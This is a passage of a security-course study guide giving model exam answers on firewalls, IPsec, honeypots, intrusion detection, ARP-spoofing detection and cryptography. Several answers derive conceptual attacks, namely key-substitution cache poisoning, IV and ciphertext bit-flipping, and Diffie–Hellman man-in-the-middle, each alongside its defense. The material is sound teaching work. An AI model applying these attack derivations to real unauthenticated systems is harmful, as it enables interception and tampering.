**Exam tip.** Give an example packet accepted by a simplistic stateless rule but rejected for lack of state.

| Property | Stateless filter | Stateful filter |
|---|---|---|
| Decision input | Current packet's fields and rules | Packet plus tracked flow/connection context |
| Return traffic | Must be allowed by explicit broad rules | Can allow replies to an established permitted flow |
| Unsolicited SYN-ACK | Could match a permissive source-port/flag rule | Can reject if no matching connection state exists |
| Resource use | Usually lower per-flow storage | State table consumes memory and can be exhausted |
| Visibility limit | Header rules do not establish application safety | Being part of a flow does not make its payload safe |

Stateful filtering follows TCP transitions/tuples and may validate sequence windows; exact tracking varies. UDP “state” generally means inferred tuple/time-based associations, not a UDP handshake. Application parsing and TLS decryption are additional capabilities, not guaranteed by the term stateful.

<a id="a058"></a>
### A058 · 2021–22 · Q5(b)

**AH versus ESP and transport/tunnel layouts · 12 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** VPN and IPsec AH/ESP encapsulation.

> **Question summary:** Compare IPsec AH and ESP with their encapsulations.

**Exam tip.** Mark the exact encrypted/authenticated region instead of saying simply “AH authenticates, ESP encrypts.”

**AH** provides packet integrity/data-origin authentication and anti-replay when enabled, but no confidentiality. Its authentication covers payload and selected immutable/predictable IP-header fields; mutable fields cannot be protected unchanged across transit.

**ESP** protects the encapsulated payload with confidentiality and, when configured, integrity/authentication (normally combined in secure deployments). It does not authenticate the outer IP header in the same way as AH. Anti-replay uses sequence numbers and a receiver window, with authenticated integrity necessary to trust them.

```text
AH transport: IP | AH | TCP/UDP | data
AH tunnel:    new IP | AH | original IP | TCP/UDP | data
ESP transport: IP | ESP hdr | {TCP/UDP | data | ESP trailer} | auth tag
ESP tunnel: new IP | ESP hdr | {original IP | TCP/UDP | data | trailer} | tag
```

Braces mark the ESP-encrypted part when encryption is selected. ESP header fields such as SPI/sequence number remain visible but are integrity-protected when authentication is used. Tunnel mode hides the inner addresses from ordinary transit observation while outer endpoints remain visible.

AH's protection of address fields makes ordinary NAT problematic. ESP can traverse NAT using UDP encapsulation; do not claim all IPsec is intrinsically incompatible with NAT.



[References: RFC 4302](https://www.rfc-editor.org/rfc/rfc4302), [RFC 4303](https://www.rfc-editor.org/rfc/rfc4303).

<a id="a062"></a>
### A062 · 2021–22 · Q6(c)

**Honeypot topology and effect on normal operation · 11 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** Honeypot topology, monitoring and overhead.

> **Question summary:** Explain the need for a honeypot with topology and whether it hampers normal operation.

**Exam tip.** Distinguish direct production latency from operational and shared-resource cost.


A honeypot is a deliberately attractive decoy with little or no legitimate production use. Access attempts provide comparatively high-signal evidence. Interaction can reveal exploit methods, malware, commands and C&C destinations, and may divert an intruder from valuable systems.

Place it in a controlled segment/DMZ, monitor it from a protected collector and restrict its outbound reach. Never give it real credentials or a path for unrestricted attacks on production or third parties. A low-interaction decoy emulates selected services; a high-interaction host provides richer evidence at greater containment/maintenance cost.

**Overhead is not zero and has no fixed percentage in the question.** Costs include a VM/host, storage, logs, monitoring, analyst time, patch/reset work and some network traffic. A passive or separately segmented decoy need not sit in the production request path, so ordinary requests do not inherently incur an extra hop. Attack traffic or poor placement can nevertheless affect shared resources.

A honeypot observes attacks that touch it; it cannot replace general IDS, patching and access control.

<a id="a067"></a>
### A067 · 2021–22 · Q8(b)

**OS fingerprinting to validated vulnerability finding · 12 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** Reconnaissance, fingerprinting and vulnerability assessment.

> **Question summary:** Formulate the steps for exploiting a target after scanning its OS version.

**Exam tip.** Separate discovery, vulnerability inference and demonstrated exploitation. Each has different evidence.

In the exam's authorized test environment:

1. Define the permitted hosts/services and obtain a baseline of expected availability.
2. Discover live hosts and open ports. A TCP connect scan completes a connection; a SYN scan interprets SYN-ACK/RST without completing an ordinary connection. Filtering/timeouts require careful interpretation.
3. Identify service banners/protocol behavior and estimate OS/version using tools such as Nmap. A banner is evidence, not proof: it can be hidden, misleading or refer to a backported patched build.
4. Match the exact product, version, configuration and platform against vendor advisories/CVE records. Check authentication requirements, exposed interfaces and patch status.
5. Validate the suspected issue safely in an isolated equivalent system, then demonstrate only the agreed impact on the test target. A version match alone does not establish successful code execution.
6. Preserve evidence, explain the root cause, patch or reconfigure, reduce exposure and retest the specific finding.

The slides mention scanners/exploit tools; a good answer connects each tool's observation to the next decision rather than treating a scan result as automatic access.

<a id="a068"></a>
### A068 · 2021–22 · Q8(c)

**Address-book allowlist as a spam policy · 11 marks**

Original: [past-paper PDF p. 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023.

**Topics:** Firewall state, evasion and defense limits; Phishing, homographs and UI deception.

> **Question summary:** Alice rejects all email except senders in her address book. Is this an effective spam defense?

**Coverage:** related application/extension. Applies allowlist policy and phishing concepts; email-specific authentication is supplementary.

**Exam tip.** Discuss both false negatives (spam from “allowed” identities) and false positives (new legitimate contacts).

It reduces mail from unknown addresses but is neither complete spam prevention nor an acceptable policy for every user. An address-book entry is usually an **address string**, not a cryptographic authentication of the sender. Attackers can forge visible From fields, exploit look-alike addresses or send from an actually compromised contact account.

Conversely, legitimate first-time senders, new staff, receipts and changed addresses may be rejected. That is a false-positive/usability cost and may cause users to disable the policy.

Use authenticated domain/message evidence, reputation/content controls and a quarantine/review path appropriate to the user's needs. SPF/DKIM/DMARC provide useful domain-level signals but do not prove a contact's account is uncompromised or every message benign. Strong allowlisting should use the intended authenticated identity rather than trusting a display name.

<a id="a076"></a>
### A076 · 2020–21 · Q3(b)

**Web-server assessment and validation workflow · 12 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** Reconnaissance, fingerprinting and vulnerability assessment.

> **Question summary:** Give a stepwise approach and tools to find and exploit popular web-server vulnerabilities.

**Exam tip.** Separate discovery, vulnerability inference and demonstrated exploitation. Each has different evidence.

In the exam's authorized test environment:

1. Define the permitted hosts/services and obtain a baseline of expected availability.
2. Discover live hosts and open ports. A TCP connect scan completes a connection; a SYN scan interprets SYN-ACK/RST without completing an ordinary connection. Filtering/timeouts require careful interpretation.
3. Identify service banners/protocol behavior and estimate OS/version using tools such as Nmap. A banner is evidence, not proof: it can be hidden, misleading or refer to a backported patched build.
4. Match the exact product, version, configuration and platform against vendor advisories/CVE records. Check authentication requirements, exposed interfaces and patch status.
5. Validate the suspected issue safely in an isolated equivalent system, then demonstrate only the agreed impact on the test target. A version match alone does not establish successful code execution.
6. Preserve evidence, explain the root cause, patch or reconfigure, reduce exposure and retest the specific finding.

The slides mention scanners/exploit tools; a good answer connects each tool's observation to the next decision rather than treating a scan result as automatic access.


For a web server, also inventory enabled modules, TLS termination, reverse proxies and application versions; the externally visible Server header may not identify the vulnerable component. Validate the exact HTTP path/feature involved and use a reproducible minimal test with agreed limits.

<a id="a080"></a>
### A080 · 2020–21 · Q4(c)

**Base-rate fallacy with a numerical example · 11 marks**

Original: [past-paper PDF p. 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022.

**Topics:** Intrusion detection, base rates and audit data.

> **Question summary:** Define the base-rate fallacy, give an example and explain its effect on daily incident handling.

**Coverage:** related application/extension. The deck teaches the four alarm outcomes; Bayes/base-rate calculation is an extension.

**Exam tip.** Use a confusion matrix or natural event counts, then compute true alarms divided by all alarms.

The fallacy is treating a detector's high sensitivity or low false-positive rate as the probability that an **alarm** is a real attack, while ignoring how rare attacks are.

Let attack prevalence $p=0.001$, sensitivity $s=0.99$ and false-positive rate $f=0.01$. Bayes' rule gives
$$P(A\mid +)=\frac{sp}{sp+f(1-p)}=\frac{0.00099}{0.00099+0.00999}\approx 0.0902.$$

Among 100,000 events, expect 100 attacks, 99 true alarms, 99,900 benign events and 999 false alarms. Only about **9% of alarms** are true despite 99% sensitivity and 99% specificity.

Analysts face alert fatigue, wasted effort and delayed responses to real incidents. Improve precision through context/correlation, sensible thresholds, validated high-value rules and triage; reducing false positives must be balanced against false negatives. Track prevalence and evaluate precision as well as recall.

<a id="a094"></a>
### A094 · 2019–20 · Q2(c)

**Verify a reported DoS source and respond with evidence · 11 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Intrusion detection, base rates and audit data; OS trust, paging, boot and persistent memory images; DoS/DDoS, reflection and resource exhaustion.

> **Question summary:** A hall administrator says your shared network segment is sending DoS traffic. You deny involvement but are unsure about your roommate. How do you verify and respond?

**Coverage:** related application/extension. Uses IDS/network logs and OS event logging; incident-handling workflow extends the slides.

**Exam tip.** Explain attribution limits and the sequence verify → contain → investigate → recover.

Ask for concrete indicators: timestamps/time zone, observed source IP/port, destination, protocol, traffic rate and available logs. Confirm the report through an independent known contact path rather than trusting an unsolicited caller.

Correlate those observations with local process/network logs, router/DHCP/NAT mappings and switch ingress records. A shared public IP or segment does not uniquely identify a roommate; source IPs can also be spoofed. Capture only the relevant authorized traffic and inspect for sustained abnormal outgoing connections, malware or unexpected processes.

If evidence suggests an affected machine, coordinate containment with the administrator: isolate the specific host/port, preserve useful evidence, remove/rebuild the compromised environment, patch the entry point and rotate exposed credentials. Block abusive traffic while allowing essential investigation, then verify that it has stopped. Do not accuse an individual solely from a shared address or erase all logs before diagnosis.

<a id="a101"></a>
### A101 · 2019–20 · Q5(a)

**PIDS, alarm outcomes and base-rate interpretation · 14 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** Intrusion detection, base rates and audit data.

> **Question summary:** Define protocol-based IDS, list alarm outcomes and explain base-rate fallacy.

**Coverage:** related application/extension. IDS and the confusion matrix are explicit; PIDS specialization and Bayesian analysis are supplementary.

**Exam tip.** Use a confusion matrix or natural event counts, then compute true alarms divided by all alarms.

A **protocol-based IDS (PIDS)** observes a protocol's messages, state transitions and expected semantics at a host/service or network boundary. It can detect invalid sequences or known malicious protocol patterns; mere TCP connectivity is not evidence that the application exchange is valid.

| Actual event | Alarm | No alarm |
|---|---|---|
| Attack | True positive | False negative |
| Benign | False positive | True negative |

The fallacy is treating a detector's high sensitivity or low false-positive rate as the probability that an **alarm** is a real attack, while ignoring how rare attacks are.

Let attack prevalence $p=0.001$, sensitivity $s=0.99$ and false-positive rate $f=0.01$. Bayes' rule gives
$$P(A\mid +)=\frac{sp}{sp+f(1-p)}=\frac{0.00099}{0.00099+0.00999}\approx 0.0902.$$

Among 100,000 events, expect 100 attacks, 99 true alarms, 99,900 benign events and 999 false alarms. Only about **9% of alarms** are true despite 99% sensitivity and 99% specificity.

Analysts face alert fatigue, wasted effort and delayed responses to real incidents. Improve precision through context/correlation, sensible thresholds, validated high-value rules and triage; reducing false positives must be balanced against false negatives. Track prevalence and evaluate precision as well as recall.

<a id="a102"></a>
### A102 · 2019–20 · Q5(b)

**Audit-record fields and statistical intrusion detection · 14 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** Intrusion detection, base rates and audit data; OS trust, paging, boot and persistent memory images.

> **Question summary:** List useful audit-record fields, explain statistical IDS and identify a weakness.

**Coverage:** related application/extension. Event logging and IDS sensors are taught; statistical-model design is an extension.

**Exam tip.** Tie the listed audit fields to the behaviors your model actually measures.

A useful event record includes timestamp/time zone, event/record ID, host/sensor, authenticated user/process and effective identity, action, target object/resource, source/destination addresses/ports as appropriate, outcome/error code and a correlation/session ID. Include enough context to link events without needlessly recording passwords or sensitive payloads.

A statistical/anomaly IDS builds a baseline or model of normal activity—such as login frequency, transfer volume, process behavior or service access. It scores new observations against that model and alerts on a threshold deviation or unlikely combination. Training, feature choice, aggregation window and threshold determine behavior.

A principal weakness is that **unusual is not identical to malicious**: legitimate new work can cause false alarms, while an attacker mimicking normal behavior may evade detection. Concept drift, compromised training data and low attack prevalence further complicate performance. Validate with labeled evidence and context, and combine anomaly scores with other signals.

<a id="a103"></a>
### A103 · 2019–20 · Q5(c)

**Why a decoy helps intrusion detection · 7 marks**

Original: [past-paper PDF p. 24](../../CSE405-Security_Merged.pdf#page=24). Sitting date: 07 September 2021.

**Topics:** Honeypot topology, monitoring and overhead.

> **Question summary:** Explain why a honeypot is an effective IDS tool.

**Exam tip.** Distinguish direct production latency from operational and shared-resource cost.


A honeypot is a deliberately attractive decoy with little or no legitimate production use. Access attempts provide comparatively high-signal evidence. Interaction can reveal exploit methods, malware, commands and C&C destinations, and may divert an intruder from valuable systems.

Place it in a controlled segment/DMZ, monitor it from a protected collector and restrict its outbound reach. Never give it real credentials or a path for unrestricted attacks on production or third parties. A low-interaction decoy emulates selected services; a high-interaction host provides richer evidence at greater containment/maintenance cost.

**Overhead is not zero and has no fixed percentage in the question.** Costs include a VM/host, storage, logs, monitoring, analyst time, patch/reset work and some network traffic. A passive or separately segmented decoy need not sit in the production request path, so ordinary requests do not inherently incur an extra hop. Attack traffic or poor placement can nevertheless affect shared resources.

A honeypot observes attacks that touch it; it cannot replace general IDS, patching and access control.

<a id="a111"></a>
### A111 · 2018–19 · Q1(b)

**Compare IPsec ESP and AH formats · 9 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** VPN and IPsec AH/ESP encapsulation.

> **Question summary:** Contrast IPsec AH and ESP, including header encapsulations.

**Exam tip.** Mark the exact encrypted/authenticated region instead of saying simply “AH authenticates, ESP encrypts.”

**AH** provides packet integrity/data-origin authentication and anti-replay when enabled, but no confidentiality. Its authentication covers payload and selected immutable/predictable IP-header fields; mutable fields cannot be protected unchanged across transit.

**ESP** protects the encapsulated payload with confidentiality and, when configured, integrity/authentication (normally combined in secure deployments). It does not authenticate the outer IP header in the same way as AH. Anti-replay uses sequence numbers and a receiver window, with authenticated integrity necessary to trust them.

```text
AH transport: IP | AH | TCP/UDP | data
AH tunnel:    new IP | AH | original IP | TCP/UDP | data
ESP transport: IP | ESP hdr | {TCP/UDP | data | ESP trailer} | auth tag
ESP tunnel: new IP | ESP hdr | {original IP | TCP/UDP | data | trailer} | tag
```

Braces mark the ESP-encrypted part when encryption is selected. ESP header fields such as SPI/sequence number remain visible but are integrity-protected when authentication is used. Tunnel mode hides the inner addresses from ordinary transit observation while outer endpoints remain visible.

AH's protection of address fields makes ordinary NAT problematic. ESP can traverse NAT using UDP encapsulation; do not claim all IPsec is intrinsically incompatible with NAT.


[References: RFC 4302](https://www.rfc-editor.org/rfc/rfc4302), [RFC 4303](https://www.rfc-editor.org/rfc/rfc4303).

<a id="a124"></a>
### A124 · 2018–19 · Q4(c)

**Rule-based ARP-spoofing detection · 9 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Intrusion detection, base rates and audit data; ARP spoofing, MITM and detection.

> **Question summary:** Give rules a rule-based IDS can use to detect ARP spoofing.

**Exam tip.** Make the rule testable—state fields, trusted expectation and alert condition.

Useful rules compare observations with trusted bindings and expected behavior:

- Alert when a protected IP, especially the gateway, is claimed by an unexpected MAC.
- Alert on rapid IP-to-MAC binding changes or conflicting replies for one IP.
- Flag ARP replies inconsistent with trusted DHCP-snooping/static bindings or arriving from an unauthorized ingress port.
- Investigate excessive unsolicited/gratuitous ARP or one unexpected MAC claiming many unrelated hosts.

Correlate packet data with switch-port identity, lease records and known maintenance/failover events. A gratuitous reply or shared MAC is not automatically malicious: virtual routers, failover and proxy ARP can be legitimate. Rules need baselines/exceptions and must be evaluated for false positives/negatives.

An IDS typically alerts; DAI on a switch can enforce bindings and drop invalid packets. The same evidence can inform both, but detection and prevention are different actions.

<a id="a125"></a>
### A125 · 2018–19 · Q4(d)

**Honeypot detection, evidence and diversion · 8 marks**

Original: [past-paper PDF p. 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019.

**Topics:** Honeypot topology, monitoring and overhead.

> **Question summary:** Explain honeypot use cases with a diagram.

**Exam tip.** Distinguish direct production latency from operational and shared-resource cost.


A honeypot is a deliberately attractive decoy with little or no legitimate production use. Access attempts provide comparatively high-signal evidence. Interaction can reveal exploit methods, malware, commands and C&C destinations, and may divert an intruder from valuable systems.

Place it in a controlled segment/DMZ, monitor it from a protected collector and restrict its outbound reach. Never give it real credentials or a path for unrestricted attacks on production or third parties. A low-interaction decoy emulates selected services; a high-interaction host provides richer evidence at greater containment/maintenance cost.

**Overhead is not zero and has no fixed percentage in the question.** Costs include a VM/host, storage, logs, monitoring, analyst time, patch/reset work and some network traffic. A passive or separately segmented decoy need not sit in the production request path, so ordinary requests do not inherently incur an extra hop. Attack traffic or poor placement can nevertheless affect shared resources.

A honeypot observes attacks that touch it; it cannot replace general IDS, patching and access control.

## Cryptography, Hashes and Digital Signatures

Primary deck: [Crypto-Hash-DigSign.pdf](../slides/Crypto-Hash-DigSign.pdf)

<a id="a003"></a>
### A003 · 2023–24 · Q1(c)

**Untrusted key bundled with its own signature; attacker positions · 15 marks**

Original: [past-paper PDF p. 2](../../CSE405-Security_Merged.pdf#page=2). Sitting date: 06 September 2025.

**Topics:** Certificates, CA trust and key binding.

> **Question summary:** ARTBot broadcasts to learn CSBot’s phone number. CSBot replies with its number, public key, and a signature on the number. ARTBot verifies using that supplied key and caches the result. Explain how to poison the cached number as (i) an on-path attacker, (ii) a MITM attacker and (iii) an off-path attacker. Analyze a possible defense.

**Exam tip.** State both missing bindings: identity-to-key and response-to-fresh-request. Adding “a stronger signature algorithm” does not supply either.

**Core flaw:** a signature verified with a public key supplied by the same untrusted reply proves possession of that key, not that the sender is CSBot. Mallory generates (PKM,SKM), chooses fake number NM and sends `(NM,PKM,Sign(SKM,NM))`. Verification succeeds although the identity binding is false.

**(i) On-path observer/injector.** Mallory sees the broadcast and immediately injects the forged reply, spoofing any unauthenticated sender fields needed. If ARTBot accepts the first valid response for an outstanding lookup, winning the race poisons the cache. Being on-path does not necessarily give packet-dropping power; explain the race under that capability.

**(ii) MITM able to modify/drop.** Suppress CSBot’s genuine reply and substitute Mallory’s reply. This removes the race and gives reliable poisoning under the stated protocol.

**(iii) Off-path.** Construct the same self-consistent reply blindly and inject it when ARTBot is likely to have an outstanding lookup, possibly inducing such a lookup if the application allows it. Success depends on reachability, acceptance rules and timing. The protocol specifies no unpredictable transaction ID or signed challenge, so it gives no stated cryptographic freshness obstacle. It does not follow that every unsolicited packet will be accepted: identify the lookup-window assumption.

**Defense.** Pre-provision an authentic CSBot key, or validate an identity–key certificate against a pre-trusted CA. Have ARTBot send a fresh unpredictable nonce and require the signed response to cover `CSBot identity || phone number || nonce || protocol context`. Verify the identity, trusted key, signature and outstanding nonce before caching; bound cache lifetime. A nonce alone does not defeat an on-path key-substitution attacker who can see and sign that nonce with their own key.

<a id="a014"></a>
### A014 · 2023–24 · Q5(b)

**Unfamiliar chaining diagram; equations, parallelism and malleability · 20 marks**

Original: [past-paper PDF p. 7](../../CSE405-Security_Merged.pdf#page=7). Sitting date: 06 September 2025.

**Topics:** Block-cipher modes, CBC and ciphertext manipulation.

> **Question summary:** For the supplied block-cipher diagram with IV1 and IV2, derive encryption/decryption equations for the first three blocks; draw the decryption diagram; determine which operations parallelize. Given two known plaintext/ciphertext pairs and intercepted IV1, IV2, C1, C2, modify the transmitted values so Bob obtains chosen P1′ and P2′ without learning the key.

**Coverage:** related application/extension. Sec A teaches CBC, not this custom two-IV construction; a related mode-analysis extension, not a direct CBC question.

**Exam tip.** First identify an expression you can keep constant through cancellation. Here it is `C1 XOR IV2`. State that the attack assumes the transmitted IVs/ciphertext are not authenticated.

Let E and D be inverse block-cipher operations under K; all XOR operands are one block. **The second IV is XORed after the first encryption**, and the resulting C1 feeds the second block. Reading that wire correctly determines the answer.

**(i) Derive encryption and decryption.**

$$
\begin{aligned}
C_1&=E_K(P_1\oplus IV_1)\oplus IV_2, & P_1&=D_K(C_1\oplus IV_2)\oplus IV_1,\\
C_2&=E_K(P_2\oplus C_1), & P_2&=D_K(C_2)\oplus C_1,\\
C_3&=E_K(P_3\oplus C_2), & P_3&=D_K(C_3)\oplus C_2.
\end{aligned}
$$

For the first equation, XOR IV2 to both sides, apply D, then XOR IV1. For later blocks, apply D and XOR the preceding ciphertext.


Encryption is sequential because C2 needs C1 and C3 needs C2. Decryption is parallelizable: every D input and every subsequent XOR operand comes from the already received ciphertext/IVs. There is no need to wait for the previous plaintext.

**(ii) Independently choose both recovered plaintext blocks.** Define:

$$
\begin{aligned}
\Delta_1&=P_1\oplus P_1^*, &\Delta_2&=P_2\oplus P_2^*,\\
IV_1'&=IV_1\oplus\Delta_1, & C_1'&=C_1\oplus\Delta_2,\\
IV_2'&=IV_2\oplus\Delta_2, & C_2'&=C_2.
\end{aligned}
$$

For block 1, $C_1'\oplus IV_2'=C_1\oplus IV_2$, so the unknown D output is unchanged. Thus:

$$
\begin{aligned}P_1'&=D_K(C_1\oplus IV_2)\oplus IV_1\oplus\Delta_1\\&=P_1\oplus\Delta_1=P_1^*.\end{aligned}
$$

For block 2:

$$
\begin{aligned}P_2'&=D_K(C_2)\oplus C_1'\\&=P_2\oplus\Delta_2=P_2^*.\end{aligned}
$$

The attacker needs the old plaintext blocks and desired targets, not K. Changing C1 alone would unpredictably corrupt block 1; changing IV2 by the same delta cancels that corruption. Authenticating the IVs and all ciphertext blocks before decryption prevents this modification attack.

<a id="a015"></a>
### A015 · 2023–24 · Q6(a)

**Unauthenticated Diffie–Hellman MITM; defense without a trusted third party · 15 marks**

Original: [past-paper PDF p. 8](../../CSE405-Security_Merged.pdf#page=8). Sitting date: 06 September 2025.

**Topics:** Diffie–Hellman calculations and authentication.

> **Question summary:** Given the stated Diffie–Hellman protocol, act as Mallory when no trusted third parties can verify Alice or Bob. Explain and diagram a successful MITM attack, then briefly explain a defense.

**Exam tip.** Draw two distinct shared keys. Do not “fix” this question merely by assuming an available CA, which the prompt excludes.

**Attack.** Alice sends A=$g^{a}$ and Bob sends B=$g^{b}$ modulo p. Mallory chooses exponents x,y, replaces Alice’s contribution to Bob with X=$g^{x}$, and replaces Bob’s contribution to Alice with Y=$g^{y}$.

$$
\begin{aligned}K_A&=Y^a=g^{ay}=A^y,\\K_B&=X^b=g^{bx}=B^x.\end{aligned}
$$

Alice and Bob have keys with Mallory, not with each other. Mallory decrypts under KA, reads/changes the plaintext, encrypts under KB and forwards it. Passive interception alone does not permit this; contribution substitution does.


**Defense under the stated “no trusted third party” condition.** Alice and Bob can compare authenticated public-key fingerprints or a transcript hash over an independent authenticated channel, such as meeting in person. They can then sign fresh DH contributions using those verified keys. Alternatively, a pre-shared secret can authenticate the transcript. Both parties should bind identities, roles, nonces and both DH shares to authentication.

Simply signing with a public key attached to the same unauthenticated message does not help: Mallory attaches her own key and matching signature. TOFU helps detect later changes only if first contact was clean; it does not guarantee protection during an attacked first exchange. With no pre-existing trust or independent authentication at all, unauthenticated DH cannot establish the peer’s identity.

<a id="a016"></a>
### A016 · 2023–24 · Q7(b)

**RSA correctness proof · 10 marks**

Original: [past-paper PDF p. 9](../../CSE405-Security_Merged.pdf#page=9). Sitting date: 06 September 2025.

**Topics:** RSA encryption and correctness.

> **Question summary:** Prove mathematically that RSA decryption recovers the original message, using the necessary number-theory results.

**Exam tip.** An Euler-theorem proof that assumes gcd(M,N)=1 is incomplete unless you address non-coprime messages. The two-case Fermat/CRT proof handles them. Correctness does not prove raw RSA is secure: deterministic RSA still fails IND-CPA.

Choose distinct primes p,q; N=pq; φ(N)=(p−1)(q−1); gcd(e,φ(N))=1; and d=$e^{-1}$ mod φ(N). Therefore $ed=1+t(p-1)(q-1)$ for some integer t. We must prove $M^{ed}$≡M mod N for **every** residue M.

Work modulo p. If p divides M, both sides are 0 modulo p. Otherwise Fermat’s little theorem gives $M^{p-1}$≡1, so:

$$
M^{ed}=M\left(M^{p-1}\right)^{t(q-1)}\equiv M\pmod p.
$$

The identical argument modulo q gives $M^{ed}$≡M mod q, including the case q divides M. Since p and q are coprime, the Chinese remainder theorem implies:

$$
\begin{aligned}M^{ed}&\equiv M\pmod{pq},\\D_d(E_e(M))&=(M^e)^d\bmod N=M.\end{aligned}
$$

<a id="a017"></a>
### A017 · 2023–24 · Q7(c)

**RSA signing/verifying; security of separately sending ciphertext and signature · 10 marks**

Original: [past-paper PDF p. 9](../../CSE405-Security_Merged.pdf#page=9). Sitting date: 06 September 2025.

**Topics:** Digital signatures and signing-key security; RSA encryption and correctness.

> **Question summary:** Define RSA signature creation and verification using Sign(d,M) and Verify(e,N,M,sig). Alice encrypts M with Bob’s RSA public key and signs M with her own private key. Can she securely send both ciphertext and signature together? Justify cryptographically.

**Exam tip.** “Different keys” is not a sufficient justification for confidentiality. The decisive observation is that public verification tests candidate plaintexts.

**Signing and verification, using the lecture’s simplified notation.** Alice’s public key is (NA,eA), private key dA:

$$
\begin{aligned}\operatorname{Sign}(d_A,M)&=s=H(M)^{d_A}\bmod N_A,\\\operatorname{Verify}(e_A,N_A,M,s)&=1\quad\Longleftrightarrow\quad s^{e_A}\bmod N_A=H(M).\end{aligned}
$$

Actual RSA signature encodings are more elaborate; the question is about this mathematical model. Verification uses Alice’s authenticated public key. Encryption to Bob is $C=\operatorname{Enc}_{PK_B}(M)$.

**Can (C,s) be sent securely? Not with general message confidentiality.** Anyone can test a candidate message m by calling `Verify(PKA,m,s)`. For a low-entropy message such as BUY/SELL, an observer tries both and learns M without decrypting C. More formally, in a confidentiality challenge between distinct M0 and M1, an observer verifies the public signature against both candidates. This attack does not require reversing a hash or forging a signature.

With the simplified RSA signature, the observer can also compute $s^{e_A}=H(M)\pmod{N_A}$, supplying a public fingerprint for a dictionary attack. A signature authenticates content; it does not conceal it.

**Repair.** Encrypt the message and its signature together inside a secure, authenticated encryption construction, for example a hybrid envelope carrying `M || Sign(SKA, context || M)`. Bind sender, intended recipient and protocol context. Alternatively, a carefully specified scheme can sign the encrypted envelope; composition requirements must be stated rather than assuming any encryption/signature pair is automatically secure.



<a id="a018"></a>
### A018 · 2023–24 · Q8(a)

**Encrypt-then-MAC versus MAC-then-encrypt · 5 marks**

Original: [past-paper PDF p. 9](../../CSE405-Security_Merged.pdf#page=9). Sitting date: 06 September 2025.

**Topics:** MAC/HMAC and authenticated data.

> **Question summary:** What is authenticated encryption? Which of MAC-then-encrypt and encrypt-then-MAC is preferable, and why?

**Coverage:** related application/extension. MAC/encryption foundations are taught; authenticated-encryption composition is a related extension.

**Exam tip.** Show construction and receiver order. Do not claim that every possible MAC-then-encrypt system is automatically broken; the point is the stronger generic composition and easier implementation discipline of encrypt-then-MAC.

Authenticated encryption protects message confidentiality and detects unauthorized ciphertext/message modification.

$$
\begin{aligned}\text{MAC-then-encrypt:}\quad C&=\operatorname{Enc}_{K_e}\!\left(M\parallel\operatorname{MAC}_{K_m}(M)\right),\\\text{Encrypt-then-MAC:}\quad C&=\operatorname{Enc}_{K_e}(M),\\T&=\operatorname{MAC}_{K_m}\!\left(\operatorname{encode}(IV,C,\text{context})\right).\end{aligned}
$$

**Prefer encrypt-then-MAC under the usual secure-primitive and independent-key assumptions.** The receiver checks T before decrypting C and rejects invalid packets uniformly. In MAC-then-encrypt, the receiver must decrypt and often parse padding before authenticating, creating opportunities for padding/error/timing oracles in incorrect implementations.

Authenticate the IV/nonce and relevant metadata as well as the ciphertext; otherwise an unauthenticated IV may permit plaintext changes. Dedicated AEAD schemes provide an integrated interface, with nonce requirements that still must be followed.

<a id="a034"></a>
### A034 · 2022–23 · Q5(a)

**ECB/CBC/CTR comparison · 12 marks**

Original: [past-paper PDF p. 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024.

**Topics:** Block-cipher modes, CBC and ciphertext manipulation.

> **Question summary:** Compare ECB, CBC and CTR, with diagrams, for (i) IND-CPA security, (ii) encryption/decryption parallelism and (iii) robustness to incorrect IV/nonce usage.

**Coverage:** related application/extension. CBC is explicit; ECB/CTR, IND-CPA and nonce-comparison details extend this deck.

**Exam tip.** “IND-CPA secure” needs conditions. Correctly used CBC and CTR provide confidentiality; neither plain mode independently guarantees integrity.

For block size n, let E be a secure block cipher and D its inverse.

$$
\begin{aligned}\mathrm{ECB}:\quad C_i&=E_K(P_i),\\\mathrm{CBC}:\quad C_0&=IV,\quad C_i=E_K(P_i\oplus C_{i-1}),\\P_i&=D_K(C_i)\oplus C_{i-1},\\\mathrm{CTR}:\quad Z_i&=E_K(N\parallel i),\\C_i&=P_i\oplus Z_i,\quad P_i=C_i\oplus Z_i.\end{aligned}
$$


| Property | ECB | CBC | CTR |
|---|---|---|---|
| IND-CPA | No: deterministic, exposes block equality | Yes under appropriate unpredictable IV and secure-block-cipher assumptions | Yes when every nonce/counter input under a key is unique, within security limits |
| Parallel encryption | Yes | No | Yes |
| Parallel decryption | Yes | Yes | Yes |
| Padding | Needed for arbitrary byte lengths | Needed | Not needed for a final partial block |
